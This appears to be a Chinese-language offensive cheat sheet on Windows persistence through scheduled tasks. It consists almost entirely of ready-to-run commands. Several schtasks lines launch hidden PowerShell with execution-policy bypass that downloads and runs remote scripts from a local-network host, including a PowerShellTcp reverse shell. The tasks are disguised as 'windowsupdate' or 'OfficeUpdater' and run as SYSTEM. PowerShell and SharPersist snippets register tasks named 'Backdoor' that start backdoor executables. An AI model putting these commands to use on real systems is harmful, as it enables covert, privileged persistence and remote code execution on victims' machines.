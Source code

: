 #### 加载powershell
	>schtasks /Create /tn 名字 /tr 运行程序 /sc hourly /mo 1
	>schtasks /create /S TARGET /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://192.168.0.107:8080/Invoke-PowerShellTcp.ps1''')'"
 #### 执行exe
	创建计划任务
	>schtasks /create /RL HIGHEST /F /tn "windowsupdate" /tr "c:\windows\temp\update.exe" /sc DAILY /mo 1 /ST 12:25 /RU SYSTEM
	查看计划任务
	>schtasks /query | findstr "windowsupdate"
	立即执行某项计划任务
	>schtasks /run /tn "windowsupdate"
	删除某项计划任务
	>schtasks /delete /F /tn "windowsupdate"
	普通用户权限计划任务
	>schtasks /create /F /tn "windowsupdate" /tr "D:\user\zhangsan\file\windowsupdate.exe" /sc DAILY /mo 1 /ST 12:25 
	>schtasks /query | findstr "windowsupdate" 
	>schtasks /run /tn "windowsupdate" 
	>schtasks /delete /F /tn "windowsupdate" 
	>schtasks /tn "SysDebug" /query /fo list /v
 #### 使用powershell
  	PS C:\> $A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\Users\Rasta\AppData\Local\Temp\backdoor.exe"
	PS C:\> $T = New-ScheduledTaskTrigger -AtLogOn -User "Rasta"
	PS C:\> $P = New-ScheduledTaskPrincipal "Rasta"
	PS C:\> $S = New-ScheduledTaskSettingsSet
	PS C:\> $D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S
	PS C:\> Register-ScheduledTask Backdoor -InputObject $D
 #### 使用SharPersist
  	添加到当前计划任务
	>SharPersist -t schtaskbackdoor -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Something Cool" -m add

	添加新任务
	>SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Task" -m add
	>SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Task" -m add -o hourly
 #### 细节使用
	计划任务以 SYSTEM 身份运行，每天上午 9 点或特定日期。
	# Powershell
	$A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\temp\backdoor.exe"
	$T = New-ScheduledTaskTrigger -Daily -At 9am
	或
	$T = New-ScheduledTaskTrigger -Daily -At "9/30/2020 11:05:00 AM"
	$P = New-ScheduledTaskPrincipal "NT AUTHORITY\SYSTEM" -RunLevel Highest
	$S = New-ScheduledTaskSettingsSet
	$D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S
	Register-ScheduledTask "Backdoor" -InputObject $D

	schtasks
	schtasks /create /sc minute /mo 1 /tn "eviltask" /tr C:\tools\shell.cmd /ru "SYSTEM"
	schtasks /create /sc minute /mo 1 /tn "eviltask" /tr calc /ru "SYSTEM" /s dc-mantvydas /u user /p password
	schtasks /Create /RU "NT AUTHORITY\SYSTEM" /tn [TaskName] /tr "regsvr32.exe -s \"C:\Users\*\AppData\Local\Temp\[payload].dll\"" /SC ONCE /Z /ST [Time] /ET [Time]

	(X86) - 在用户登录时
	schtasks /create /tn OfficeUpdaterA /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onlogon /ru System
	 
	(X86) - 在系统启动时
	schtasks /create /tn OfficeUpdaterB /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onstart /ru System
	 
	(X86) - 在用户空闲时 (30mins)
	schtasks /create /tn OfficeUpdaterC /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onidle /i 30
	 
	(X64) - 在用户登录时
	schtasks /create /tn OfficeUpdaterA /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onlogon /ru System
	 
	(X64) - 在系统启动时
	schtasks /create /tn OfficeUpdaterB /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onstart /ru System
	 
	(X64) - 在用户空闲时 (30mins)
	schtasks /create /tn OfficeUpdaterC /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onidle /i 30
